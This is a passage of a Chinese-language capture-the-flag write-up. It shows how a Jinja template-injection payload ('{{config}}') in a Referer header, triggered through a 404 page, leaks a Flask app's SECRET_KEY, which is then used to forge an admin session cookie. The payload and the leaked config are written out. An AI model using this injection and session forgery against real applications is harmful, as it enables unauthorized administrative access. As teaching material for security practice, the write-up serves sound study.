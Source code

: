 ```python
    """ Check if given url is valid """
    host = flask.request.host_url
    if not url.startswith(host):
        return False  # Not from my server
    if len(url) - len(host) > 16:
        return False  # Referer may be also 404

    return True


if __name__ == '__main__':
    app.run(
        host='0.0.0.0',
        port='8000',
        debug=False
    )
```

构造 `Referer:http://47.110.130.169:12222/{{config}}`，然后需要触发404，地址栏随便输入一个不存在的页面：

![image-20200719154614770](https://gitee.com/ivenwings/md_img/raw/master/img/20200719154622.png)

访问后可以发现触发到了

![image-20200719154638083](https://gitee.com/ivenwings/md_img/raw/master/img/20200719154638.png)

然后可以发现地址栏多了一堆配置，拿去url解码一下，就可以看到完整的配置了。

![image-20200719154714804](https://gitee.com/ivenwings/md_img/raw/master/img/20200719154714.png)

```json
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'wustaismatr1x2333333333333333333333333333', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>
```

可以得到 `'SECRET_KEY': 'wustaismatr1x2333333333333333333333333333'`

于是我们可以利用key来伪造session：`{"user":"admin"}`

可以自己开一个flask项目，可以直接用工具：[Github项目链接](https://github.com/noraj/flask-session-cookie-manager) 

![image-20200719155352985](https://gitee.com/ivenwings/md_img/raw/master/img/20200719155353.png)

得到session后放在cookie里，访问 `/admin`

![image-20200719155431529](https://gitee.com/ivenwings/md_img/raw/master/img/20200719155431.png)
